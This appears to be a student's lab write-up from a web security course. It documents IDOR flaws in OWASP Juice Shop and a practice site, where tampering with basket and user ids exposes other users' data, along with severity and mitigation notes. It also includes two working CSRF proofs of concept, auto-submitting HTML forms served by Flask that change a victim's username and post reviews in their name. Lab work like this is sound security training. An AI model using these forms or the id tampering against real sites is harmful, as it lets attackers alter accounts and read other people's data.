





# Web Application Security

## Week 01  

### Authorization Bypass:

#### JuiceShop - View Basket

**Title:** Unauthorized user can view other users baskets.

**Description:** Web Application has insecure direct object vulnerability. Application stores unecrypted basket id in session storage when querying basket items from users basket. Changing basket id enables unauthorized user to view other users basket.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi/3000`.
2. Login in to the website.
3. Head to basket.
4. Open developer tools and view `storage` tab.
5. In `storage` tab, select `session storage`.  
    5. You can find attribute `bid` = `basket id`.
6. Change `bid` value for example: `3`. Navigate to any other view in the website and open `basket` again.
7. Other users basket is now visible to you.  



* Impact estimation:
    * Low Severity. User can make harm for other users such as add or remove items but can't access any
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See 
    * Check two parameters: buid and authenticate for which user buid belongs to.  


---

#### Main target - Order history is vulnerable to Indirect Object Reference

**Title:** Unauthorized user can view other users order history and access address information.

**Description:** Web Application has insecure direct object vulnerability.  Application enables unauthorized user to view other user order history by chaning user id in the url address.

**Steps to produce:**  

1. Navigate to `https://wasdat.fi`.
2. Login in to the website.
3. When logged in hover over dropdown navigation on top left and press `order history`.
4. When viewing your order history, url is: `http://wasdat.fi/user/13/orders`.
5. Change user id to see view other peoples order history. user id `3` exposes the flag.
> `http://wasdat.fi/user/3/orders`  




* Impact estimation:
    * Low Severity. User can access other users order history and view their address information.
* Mitigation:
    * Use more complex identifiers, random generated UUIDs for example.
        * See 
    * Check two parameters: buid and authenticate for which user buid belongs to.  
    * Don't include user id in url parameter.

---

### Cross Site Forgery

#### Juice Shop - Cross-Site Request Forgery (2 point) :

**Title:** Cross Site Forgery - Change victim username 

**Description:** Web Application allows cross site request and is vulnerable for forged websites to send http requests to application. This allows malicious websites execute `http:POST/`  request towards the website and change other users usernames.

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Juice Shop Redirect</title>
        <script>
            window.onload = function() {
                document.getElementById("autoSubmitForm").submit();
            }
        </script>
    </head>

    <body>
        <form action="http://wasdat.fi:3000/profile" method="post" id="autoSubmitForm">
            <input name="username" value="ab0197" />
            <input type="submit">
        </form>
    </body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi:3000` and goes to your url, in this case: `http://127.0.0.1:5000/` his username will be automically changed to `ab0197` and will be directed to his profile page.  




* Impact estimation:
    * Low Severity. User can make harm for other users by changing their usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
        * See: 
---

#### Main Target - Review product feature is vulnerable for CSRF attack

**Title:** Cross Site Forgery - Review product feature is vulnerable.

**Description:** Web Application has vulnerability in Review product feature. This vulnerability allows malicious website to send product reviews under other users name. In addition even though not exploited in this implementation, there is following vulnerabilities: 
    * csfr tokens are not hidden
    * cookies are not set to expire after session
    * double token validation is not implemented

**Steps to produce:**  

1. Create a new `html` file.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Wasdat Redirect</title>
    <script>
        window.onload = function() {
            document.getElementById("autoSubmitForm").submit();
        }
    </script>
</head>
<body>
        <form action="http://wasdat.fi/product/2" method="post" id="autoSubmitForm">
                <input name="review" value="ab0197"/>
                <input type="submit"/>
        </form>
</body>
</html>
```
2. Create a simple python server:

```py
from flask import Flask, render_template

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('form.html')

if __name__ == '__main__':
    app.run(debug=True)
```
3. Start sever `python3 app.py`
4. Victim user is logged in to `http://wasdat.fi/` and goes to your url, in this case: `http://127.0.0.1:5000/`. This makes automatic `http /post` request to `http://wasdat.fi/product/2` creating a new product review with value: `ab0197`. This new review is not visible to user untill he visits the page next time.  





* Impact estimation:
    * Low Severity. Malicious website can make harm for other users by posting product reviews under other users usernames.
* Mitigation:
    * Require http headers not to allow requests from from other origins.
    * csfr tokens and session id's should not be visible to users.
        * See: 
    * Require `http headers` not to allow requests from from other origins.
        * See: 


